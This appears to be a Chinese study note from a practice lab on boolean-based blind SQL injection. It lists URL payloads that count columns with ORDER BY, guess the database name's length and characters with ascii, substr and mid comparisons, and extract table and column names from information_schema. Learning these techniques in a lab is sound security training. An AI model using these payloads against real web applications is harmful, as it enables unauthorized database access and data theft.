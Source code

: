 布尔盲注

<a name="MJTYd"></a>

## 判断字段数

`?id=1' order by 4 --+`没有显示报错
`?id=1' order by 3 --+`显示You are in
&#x20;由此可以判断**字段数为3  ** <a name="cU19o"></a>

## 判断数据库名称长度

`?id=-1 or length(database())>8 --+`无内容
`?id=-1 or length(database())=8`有内容
说明**数据库长度为8**

> 一般采用逻辑或，因为无法确保前面的条件一定为真

<a name="frb3M"></a>

### 逐一猜解数据库名称

<a name="a5hHH"></a>

`?id=-1' or ascii(substr(database(),1,1))>115--+`无
`?id=-1' or ascii(substr(database(),1,1))=115--+`有
第一个字符是s
...
或者
` ?id=-1' or **ascii**(mid(database(),1,1))=115--+`有&#x20;
...
或者
`?id=-1' or mid(database(),1,1)='s'--+ `有
...

> **MID函数**表示按照指定的条件对字符串进行截取。
> 语法结构：=MID(目标单元格，开始位置，截取长度)
> 注意：该函数的提取方法是从左往右提取指定的数据。

<br />
<a name="SzUFc"></a>

## 猜解数据表名称

`?id=-1' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101--+`<br />第一个字符是e
<a name="Y2AQJ"></a>

## 猜解字段名称  

`?id=-1' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+`<br />第一个字符是i
<a name="RNwwH"></a>

